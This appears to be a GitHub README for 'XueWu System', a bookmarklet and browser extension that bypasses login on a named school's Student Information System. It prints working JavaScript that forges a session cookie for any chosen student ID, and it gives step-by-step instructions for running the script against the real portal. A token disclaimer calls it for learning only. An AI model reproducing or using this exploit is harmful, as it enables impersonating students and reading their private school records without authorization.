 # XueWu System

***Zhuang ShengLi Database Presented***

A system written in Javascript that allows users to log in into Student Information System with any identity without password.

## Running It

There are 3 ways to run the script

1. Running using `javascipt:` URL
	1. Copy the following URL:
      
      ```javascipt
      javascript:(function(){/*XueWu System Core Javascript. (C)opyright 2024 KCISHackers. All Rights reserved. Visit: https://www.github.com/KCISHacker/XueWuSystem for more info.*/function hack(id){var date=new Date();date.setTime(date.getTime()+3600000);for(let i=0;i<100;i++)var oldest_time=new Date(0);for(let i=0;i<100;i++)document.cookie='cookie'+i+'=0;expires='+oldest_time.toUTCString();document.cookie="DSAI="+id+";expires="+date.toGMTString()+";path=/";fetch(window.location.origin+'/DSAI/Query/Form_ListDetention?strKeyWord1=').then(response=>response.json()).catch(error=>(function(){console.error(error);if(error.name=='SyntaxError'){alert(id+' seems not exist. Check your spelling.');return;}alert("Error while hacking "+id+"! "+error);successed=false;}()))}console.log("Hello from XueWuSystem: Ciallo～(∠・ω< )⌒★");console.log("Visit: https://www.github.com/KCISHacker/XueWuSystem for more info");if(document.getElementById("hacked")){alert('This page had already been hacked! Do not run twice!');}document.getElementsByClassName("main_logout")[0].innerText="hacked by 学武系统hacker";document.getElementsByClassName("ui-input-text ui-body-inherit ui-corner-all ui-shadow-inset")[1].innerHTML="<div style=\"color:red\">This program is for learning reference only, rather than abusing, or you'll take the risk!</div>";document.getElementById("UserId").addEventListener("keyup",function(event){if(event.keyCode===13){event.preventDefault();btn_onclick();}});document.getElementsByName('btn_s')[0].removeEventListener("click", function(){});function btn_onclick(){if(document.getElementById("UserId").value==''){alert('Username field cannot be empty!');return;}hack(document.getElementById("UserId").value);window.location.href="/DSAI/Home";}document.getElementsByName('btn_s')[0].addEventListener("click",btn_onclick);document.body.innerHTML += '<div id="hacked"></div>';}())
      ```
      
      2. Visit this URL when you are browsing [Student Information System Log In Page](https://portal.kcisec.com/China/Account/LogIn) tab.
      
      3. You can save this URL as a bookmark and use it anytime.

2. Installing as a browser extension  (may not work on Safari or FireFox):
   
   1. Go to [Extension Setting](about://extensions) page in your brower .
   
   2. Enable `Developer Mode` (It should appear somewhere on the page).
   
   3. After enabling this options, you should see a `Load Unpackaged` button on the page.
   
   4. Click it and specify the path of the folder `Chrome Extension` contained in the Git repository.
   
   5. It is now installed on your brower. Do not move, rename, or delete the `Chrome Extension` folder after installation.

3. Running the script manually:
   
   1. Open the JavaScript file named "core.js" from the Git repository.
   2. The file contains comments explaining the purpose of each function.
   3. Try running the functions in the <a href="https://en.wikipedia.org/wiki/Web_development_tools">Developer Tools</a> Console of your browser while on the [Student Information System Log In Page](https://portal.kcisec.com/China/Account/LogIn).

## License

MIT License

Copyright (c) 2024 KCISHackers

Permission is hereby granted, free of charge, to any person obtaining a copy of this software and associated documentation files (the "Software"), to deal in the Software without restriction, including without limitation the rights to use, copy, modify, merge, publish, distribute, sublicense, and/or sell copies of the Software, and to permit persons to whom the Software is furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.
